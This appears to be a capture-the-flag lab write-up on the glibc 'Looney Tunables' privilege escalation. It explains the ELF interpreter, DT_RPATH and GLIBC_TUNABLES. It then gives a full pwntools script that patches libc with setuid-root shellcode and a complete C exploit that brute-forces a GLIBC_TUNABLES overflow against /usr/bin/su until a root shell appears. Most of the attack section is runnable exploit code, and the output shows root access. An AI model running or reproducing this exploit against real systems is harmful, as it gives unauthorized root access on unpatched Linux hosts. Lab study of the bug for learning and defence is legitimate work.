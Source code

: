 # Looney tunable THM

To check the `.interp` section of an ELF file, you can use the following command.

```
readelf /usr/bin/man -p .interp
````

Result

```
nopriv@looneytunes:~$ readelf /usr/bin/man -p .interp

String dump of section '.interp':
  [     0]  /lib64/ld-linux-x86-64.so.2
```

We can also check which libraries are needed to run the `man` command by using the `ldd` command to get a list of dependncies.

```
nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007ffe09f3a000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fb22c12d000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fb22c0fd000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fb22c0db000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fb22c0ce000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb22bea6000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fb22be92000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fb22be72000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fb22c257000)
```

We can see that `man` command depends on `libz.so.1` which can be found `/lib/x86_64-linux-gnu/libz.so.1`

```
libz is a compression library and it is used almost everywhere
```

### Using DT_RPATH to influence the Library Search Path

When compiling a program, you can specify additional paths where you want `ld.so` to look for libraries. 
These directories will embedded in your program'sELF file and parsed and used by `ld.so` when loading the executable.
This allows you to overried the default library search path and have your program search in an alternate location first.

Command to compile a program

```
gcc -Wl,--enable-new-dtags -Wl,-rpath=/tmp -o myapp myapp.c
```

Whenever `ld.so` loads your executable, it will first check `/tmp` for libraries, then default to the regular library search path.

### Modifying glibc Behaviour via GLIBC_TUNABLES

Once the dynamic linker `ld.so` executed, it checks specific environment variables called `GLIBC_TUNABLES`/
it allow developers t odynamically alter the runtime library behaviour.

Example on how this process works.

```
GLIBC_TUNABLES="malloc.check=1:malloc.tcache_max=128"
```

To check the version of GLIBC

```
ldd --version
```

By using provided python file, we will run it using command `python3 gen_libc.py`

```
#!/usr/bin/env python3

from pwn import *

context.os = "linux"
context.arch = "x86_64"

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
d = bytearray(open(libc.path, "rb").read())

sc = asm(shellcraft.setuid(0) + shellcraft.setgid(0) + shellcraft.sh())

orig = libc.read(libc.sym["__libc_start_main"], 0x10)
idx = d.find(orig)
d[idx : idx + len(sc)] = sc

open("./libc.so.6", "wb").write(d)
```

and we need to compile the provided c script using `gcc`

```
gcc -o exp exp.c
```

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <errno.h>
#include <fcntl.h>
#include <time.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/resource.h>
#include <sys/wait.h>

#define FILL_SIZE 0xd00
#define BOF_SIZE 0x600

// copied from somewhere, probably https://stackoverflow.com/a/11765441
int64_t time_us()
{
    struct timespec tms;

    /* POSIX.1-2008 way */
    if (clock_gettime(CLOCK_REALTIME, &tms))
    {
        return -1;
    }
    /* seconds, multiplied with 1 million */
    int64_t micros = tms.tv_sec * 1000000;
    /* Add full microseconds */
    micros += tms.tv_nsec / 1000;
    /* round up if necessary */
    if (tms.tv_nsec % 1000 >= 500)
    {
        ++micros;
    }
    return micros;
}

int main(void)
{
    char filler[FILL_SIZE], kv[BOF_SIZE], filler2[BOF_SIZE + 0x20], dt_rpath[0x20000];
    char *argv[] = {"/usr/bin/su", "--help", NULL};
    char *envp[0x1000] = {
        NULL,
    };

    // copy forged libc
    if (mkdir("\"", 0755) == 0)
    {
        int sfd, dfd, len;
        char buf[0x1000];
        dfd = open("\"/libc.so.6", O_CREAT | O_WRONLY, 0755);
        sfd = open("./libc.so.6", O_RDONLY);
        do
        {
            len = read(sfd, buf, sizeof(buf));
            write(dfd, buf, len);
        } while (len == sizeof(buf));
        close(sfd);
        close(dfd);
    } // else already exists, skip

    strcpy(filler, "GLIBC_TUNABLES=glibc.malloc.mxfast=");
    for (int i = strlen(filler); i < sizeof(filler) - 1; i++)
    {
        filler[i] = 'F';
    }
    filler[sizeof(filler) - 1] = '\0';

    strcpy(kv, "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=");
    for (int i = strlen(kv); i < sizeof(kv) - 1; i++)
    {
        kv[i] = 'A';
    }
    kv[sizeof(kv) - 1] = '\0';

    strcpy(filler2, "GLIBC_TUNABLES=glibc.malloc.mxfast=");
    for (int i = strlen(filler2); i < sizeof(filler2) - 1; i++)
    {
        filler2[i] = 'F';
    }
    filler2[sizeof(filler2) - 1] = '\0';

    for (int i = 0; i < 0xfff; i++)
    {
        envp[i] = "";
    }

    for (int i = 0; i < sizeof(dt_rpath); i += 8)
    {
        *(uintptr_t *)(dt_rpath + i) = -0x14ULL;
    }
    dt_rpath[sizeof(dt_rpath) - 1] = '\0';

    envp[0] = filler;                               // pads away loader rw section
    envp[1] = kv;                                   // payload
    envp[0x65] = "";                                // struct link_map ofs marker
    envp[0x65 + 0xb8] = "\x30\xf0\xff\xff\xfd\x7f"; // l_info[DT_RPATH]
    envp[0xf7f] = filler2;                          // pads away :tunable2=AAA: in between
    for (int i = 0; i < 0x2f; i++)
    {
        envp[0xf80 + i] = dt_rpath;
    }
    envp[0xffe] = "AAAA"; // alignment, currently already aligned

    struct rlimit rlim = {RLIM_INFINITY, RLIM_INFINITY};
    if (setrlimit(RLIMIT_STACK, &rlim) < 0)
    {
        perror("setrlimit");
    }

    /*
    if (execve(argv[0], argv, envp) < 0) {
        perror("execve");
    }
    */

    int pid;
    for (int ct = 1;; ct++)
    {
        if (ct % 100 == 0)
        {
            printf("try %d\n", ct);
        }
        if ((pid = fork()) < 0)
        {
            perror("fork");
            break;
        }
        else if (pid == 0) // child
        {
            if (execve(argv[0], argv, envp) < 0)
            {
                perror("execve");
                break;
            }
        }
        else // parent
        {
            int wstatus;
            int64_t st, en;
            st = time_us();
            wait(&wstatus);
            en = time_us();
            if (!WIFSIGNALED(wstatus) && en - st > 1000000)
            {
                // probably returning from shell :)
                break;
            }
        }
    }

    return 0;
}
```

and running the exploit

```
./exp
```

This may take some time about 5 to 10 mins and we should get a root

```
# whoami
root
```


